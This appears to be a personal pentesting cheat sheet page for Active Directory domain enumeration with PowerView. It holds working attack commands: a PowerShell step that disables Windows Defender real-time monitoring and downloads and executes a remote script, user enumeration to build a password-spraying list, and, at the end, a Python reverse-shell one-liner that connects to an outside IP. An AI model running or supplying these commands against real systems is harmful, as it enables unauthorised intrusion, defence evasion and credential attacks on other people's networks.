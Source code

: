 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


## DOMAIN ENUMERATION
<span class="demo-highlight"># Patch AMSI or disable AV</span>

```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>
 <span class="demo-highlight"># Get Domain & Domain Controller Information</span>

```powershell
      Get-Domain 
      
      
      Get-NetDomainController
      Get-UserProperty -Properties logoncount | where logoncount | sort logoncount -Descending
```
<br>
 <span class="demo-highlight"># Get User Information</span>

```powershell
      # Get all users present in the domain
      Get-NetUsers | select cn

      # Get users sorted with most logoncounts
      Get-UserProperty -Properties logoncount | where logoncount | sort logoncount -Descending
```
<br>
<span class="demo-highlight"># Get all the users in the domain and pipe their username to build a wordlist that could be used with crackmapexec later for spraying</span>

```powershell
      Get-NetUsers | select samaccountname > username.txt
```
<br>
<span class="demo-highlight"># Get all the computers in the domain</span>

```powershell
Get-NetComputer
```
<br>
<span class="demo-highlight"># Get information about specific computer</span>

```powershell
Get-NetComputer -Identity <computer_name>
```
<br>



```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```